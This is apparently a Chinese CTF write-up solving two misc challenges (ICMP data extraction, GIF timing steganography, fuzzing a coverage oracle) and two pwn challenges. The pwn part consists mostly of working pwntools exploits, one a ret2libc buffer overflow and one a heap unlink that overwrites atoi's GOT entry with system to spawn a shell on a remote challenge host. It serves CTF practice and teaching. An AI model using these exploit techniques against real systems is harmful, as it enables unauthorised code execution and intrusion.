








# 2024-1-26

## Misc

### 1



打开pcap文件，发现有ICMP数据流，利用tshark提取出来

```shell
tshark -r out.pcap -T fields -e data > data.txt
```

对提取出来的数据提取，合并成zip文件

```python
with open('data.txt','r') as file:
    with open('data1.txt','w') as file1:
        data_list = file.readlines()
        new_data=[]
        i=0
        while(i<len(data_list)):
            new_data.append(data_list[i])
            i+=4
        print(new_data)
        for j in range(len(new_data)-2):
            file1.write(new_data[j])

import binascii

with open('data1.txt','r') as file:
    with open('data2.txt','wb') as data:
        for i in file.readlines():
            data.write(binascii.unhexlify(i[:-1]))


with open('data2.txt','r') as file:
    with open('data3.txt','w') as file1:
        data_list = file.readlines()
        new_data=[]
        i=0
        for i in range(1,len(data_list)-1):
            file1.write(data_list[i][9:])


import base64

with open('data3.txt','rb') as file:
    with open('res.zip','wb') as new_file:
        new_file.write(base64.b64decode(file.read()))
```

解压后得到一个gif


使用时间隐写来解密

```sh
identify -format "%T" flag.gif
```

得到一串由20和50组成的字符串，然后处理得到flag

```python
import binascii
import hashlib
flag = '205050205050205020502020205020202020505020502050205020505050505020205050202020502050505020502020'
new_flag = ''
for i in range(0,len(flag),2):
    if flag[i:i+2] == '20':
        new_flag += '0'
    if flag[i:i + 2] == '50':
        new_flag += '1'
print(hashlib.md5(binascii.unhexlify(hex(int(new_flag,2))[2:])).hexdigest())
```

### 2

输入一个少于10字节的输入，会反馈一个代码覆盖率，我们需要让代码覆盖率达到111111111.我们采用传统fuzz思想，决定一个种子然后随机变异，代码覆盖率一旦增长则保留该编译结果作为新种子，并且测出引起代码覆盖率增长的位数，不进行修改，继续变异直到代码覆盖率满足要求。

```python
import random
from pwn import *
def bianyi(input,i):
    val = int.from_bytes(input, byteorder='little', signed=False)
    val = bin(val).replace('0b', '')
    val = list(val)
    n=1
    while(n):
        if len(val)<72:
            val.insert(0,'0')
        else:
            n=0

    print(len(val))

    val[i] = str(ord('1') - ord(val[i]))

    new_input_bin = "".join(val)
    new_input_num = int(new_input_bin, 2)
    new_input = new_input_num.to_bytes(length=9, byteorder='little', signed=False)
    return new_input

io =remote('101.200.122.251',12188)
seed = b'000000000'
seed_number = 0
n=[]
input = b'\\XqwbGoo\xb1'
for i in range(72):
    io.sendline(input)
    io.recvuntil(b'Here is your code coverage: ')
    flag = io.recv(9)
    print(flag)
    print(input)
    numbers = 0
    for j in range(9):
        if flag[j] == 49:
            numbers+=1
    print('numbers: ',numbers)
    if numbers>seed_number:
        seed = flag
        seed_number = numbers
        seed_input = input
    if numbers<seed_number:
        n.append(i)
    if seed == b'111111111':
        print('right')
        break
    print(seed_number)
    input  = bianyi(seed_input,i)
print(n)
```

## pwn

### 1



溢出修改nbytes，然后ret2libc

```python
from pwn import *

io = process('./choice')
elf = ELF('./choice')
libc = ELF('./libc.2.23.so')

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

io.sendlineafter('Please enter your name:',b'1'*0x14+b'\xff')
io.sendlineafter('3. Study hard from now',b'2')
io.sendlineafter('Cool! And whd did you choice it?',b'a'*(0x1c+4)+p32(puts_plt)+p32(0x0804857B)+p32(puts_got))

puts_adddr = u32(io.recv(4))

libc_base = puts_adddr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

io.sendlineafter('Please enter your name:',b'1'*0x14+b'\xff')
io.sendlineafter('3. Study hard from now',b'2')
io.sendlineafter('Cool! And whd did you choice it?',b'a'*(0x1c+4)+p32(system_addr)+b'a'*4+p32(bin_sh_addr))

io.interactive()
```

### 2



进入主函数发现是典型的堆管理系统



创建函数会限制大小在0x90之内，并且需要限制创建块数小于等于4 。



我们查看长度检测函数发现如果我们输入0的话会发生溢出从而修改下一chunk，申请0x0大小也会分配最小的0x20chunk



显示chunk内容



修改chunk可以选在重写和添加



没有double free和UAF

首先我们依次创建大小为0x80.0x0,0x80三个chunk，并在第一个chunk上创建fake chunk,  设置fake_fd = ptr_addr - 0x18，fake_bk = ptr_addr - 0x10，这样unlink后就可控制ptr，我们利用0x0的第二块修改第三块设置pre_size = 0xa0这样就代表前一块为0xa0的空闲块，free后进行合并，合并后将第一块地址改为atoi的got表地址，将其修改为system函数从而输入/bin/sh进行操控

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',26843)
context.log_level='debug'
elf = ELF('./note2')
libc = ELF('./libc-2.23-64.so')

def create(size,content):
    sh.sendlineafter('option--->>',b'1')
    sh.sendlineafter("Input the length of the note content:(less than 128)",str(size))
    sh.sendlineafter("Input the note content:", content)

def check(id):
    sh.sendlineafter('option--->>',b'2')
    sh.sendlineafter("Input the id of the note:", id)

def delete(id):
    sh.sendlineafter('option--->>',b'4')
    sh.sendlineafter("Input the id of the note:", id)

def edit(id,choice,content):
    sh.sendlineafter('option--->>',b'3')
    sh.sendlineafter("Input the id of the note:", id)
    sh.sendlineafter("do you want to overwrite or append?[1.overwrite/2.append]", choice)
    sh.sendlineafter("TheNewContents:",content)

sh.sendlineafter('Input your name:','mthg')
sh.sendlineafter('Input your address:','mth')
ptr_addr = 0x602120
fake_fd = ptr_addr - 0x18
fake_bk = ptr_addr - 0x10
atoi_got = elf.got['atoi']
one_addr = 0xf02a4

payload = b'\x00' * 8 + p64(0xa1) + p64(fake_fd) + p64(fake_bk)
create(0x80,payload)
create(0x0,b'aa')
create(0x80,b'/bin/sh\x00')

edit(b'1',b'1',b'a' * 0x18 + p8(0x90))
for i in range(8):
        edit(b'1',b'1',b'a' * (0x17 - i) + b'\x00')
edit(b'1',b'1',b'a' * 0x10 + p64(0xa0))
delete(b'2')

edit(b'0',b'1',0x18 * b'a' + p64(atoi_got))
check(b'0')
sh.recvuntil("is ")
atoi_addr = u64(sh.recv(6).ljust(8, b"\x00"))
libc_base = atoi_addr - libc.sym['atoi']
system_addr = libc_base + libc.sym['system']
one_gadget = libc_base + one_addr
edit(b'0',b'1',p64(system_addr))

sh.interactive()
```

